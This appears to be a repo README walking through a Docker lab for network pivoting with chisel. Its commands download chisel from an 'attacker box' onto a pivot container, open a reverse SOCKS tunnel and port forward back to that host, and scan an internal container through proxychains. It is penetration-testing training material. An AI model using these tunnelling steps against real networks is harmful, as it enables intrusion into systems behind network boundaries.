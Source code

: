 # Playing with chisel
A small repo with examples to play with chisel

---

# Requirements:

- A Linux system/Attacker Box (I will use Manjaro)
- 2 Linux Docker Containers (I will use 2 Ubuntu containers)

---

# On our Attacker Box:

We will download <code>chisel</code> from the github repo:

```
https://github.com/jpillora/chisel
```

I will version <code>v1.7.7</code>

![](./Images/Version.png)

<i>NOTE:</i> If we attack a Windows system the Windows and Linux chisel must be on the same version e.g: 1.7.7

We install:

```bash
sudo packman -Sy proxychains
```

---

# On the Victim Containers

```bash
docker run -ti -h external ubuntu
docker run -ti -h internal ubuntu
```

The container named `external` is the one that we will use as a pivot to access the `internal` container

![](./Images/Containers0.png)

On the 2 containers we run:

```bash
apt update
apt install wget
apt install net-tools
pat install python3
```

![](./Images/Containers1.png)

![](./Images/Containers2.png)

---

# POC:

The `external` machine has the IP address: `172.17.0.3`

![](./Images/Containers3.png)


The `internal` machine has the IP address: `172.17.0.2`

![](./Images/Containers4.png)

On the `internal` machine we start a `Simple Python HTTP Server on TCP Port 8080`

```bash
python3 -m http.server 8080
```

![](./Images/Containers5.png)

We will try to access the HTTP server on the `internal` machine with a `curl` from out `Attacker Box` with the IP of `external`.

On the `external` machine we transfer `chisel`:

```bash
wget 192.168.1.36:8081/chisel
```

<i>NOTE:</i> The system with IP address `192.168.1.36` is my Manjaro Box wich runs an HTTP server on TCP Port 8081 to transfer files.

![](./Images/Containers6.png)

On our `Attacker Box` we run `chisel` as a server on port 8000 in `reverse mode` for reverse port forwarding

```bash
./chisel server -p 8000 --reverse
```

![](./Images/Host0.png)

On the 'compromised' `external` machine we run the `chisel` client and use a socks proxy:

```bash
./chisel client 192.168.1.36:8000 R:socks
```

![](./Images/Containers7.png)

![](./Images/Containers8.png)

The default socks port is the TCP Port 1080.

On our Attacker Box we have configure `proxychains` to use the socks5 proxy on TCP Port 1080:

```bash
sudo nvim /etc/proxychains.conf
```

![](./Images/ProxyChains0.png)

We add the last line:

```
socks5 127.0.0.1 1080
```

Now we can use `proxychains` before any command in order to pass the traffic from the pivot machine (`external`)

On our `Attacker Box`:

```bash
proxychains curl 172.17.0.2:8080
```

![](./Images/Host1.png)

As we can see there is a GET request on the TCP Port 8080 on the `internal` machine which came from the pivot(`external`) machine:

![](./Images/Containers9.png)

---

# Scanning with proxychains:

On our Attacker Box:

```bash
proxychains nmap -Pn -sV -sC  172.17.0.2
```

![](./Images/Host2.png)

---

# Material:

```
https://www.youtube.com/watch?v=dIqoULXmhXg
```

---

# Reverse Individual Port Forwarding:

Using our setup with the 2 containers we will start a server on the external machine and make it so the server will only listen to 127.0.0.1

On the `external` machine we use the following command to start an HTTP server on TCP Port 8000 that only listens on `127.0.0.1`

```bash
python -m http.server 8000 --bind 127.0.0.1
```

![](./Images/RevPortForw0.png)

By scanning the victim machine we notice that no service is available via the `172.17.0.2` IP.

![](./Images/RevPortForw1.png)

We now have to set up our `chisel server` that listens on TCP Port 6969.

Attacker:

```bash
~/Downloads/chisel server -p 6969 --reverse
```

![](./Images/RevPortForw2.png)

Victim:

```bash
./chisel client 192.168.1.36:6969 R:8001:127.0.0.1:8000
```

The Victim asks the Attacker box to open TCP Port `8001` and forward the Victim's TCP Port `8000`.

By Scanning my `manjaro`(Attacker Box) TCP Port 8001 I access the HTTP service running on the container.

![](./Images/RevPortForw3.png)

<br>

![](./Images/RevPortForw4.png)

# Material:

```
https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel
https://stackoverflow.com/questions/12268835/is-it-possible-to-run-python-simplehttpserver-on-localhost-only
```
